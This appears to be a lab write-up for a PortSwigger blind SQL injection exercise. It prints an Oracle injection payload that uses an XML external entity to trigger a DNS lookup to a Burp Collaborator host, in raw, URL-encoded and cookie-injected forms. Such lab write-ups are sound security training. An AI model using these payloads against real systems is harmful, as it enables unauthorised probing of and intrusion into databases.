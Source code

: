 # Blind SQL injection with out-of-band interaction

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a DNS lookup to Burp Collaborator.

___
#blind_sql #oracle_database #dns_lookup

**NOTE:** DNS Lookup

![screnshot](images/lab16_0.jpg)


step 1

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--`

Burp Collaborator =>  `8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com`

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/"> %remote;]>'),'/l') FROM dual--`

URL Encoded =>
`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`

```sql
TrackingId=uy2rqNgHygVohssd'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![screnshot](images/lab16_1.jpg)


step 2

go to burp collaborator
click on Poll now you will see DNS received
and your lab  will solved

![screnshot](images/lab16_2.jpg)

![screnshot](images/lab16_3.jpg)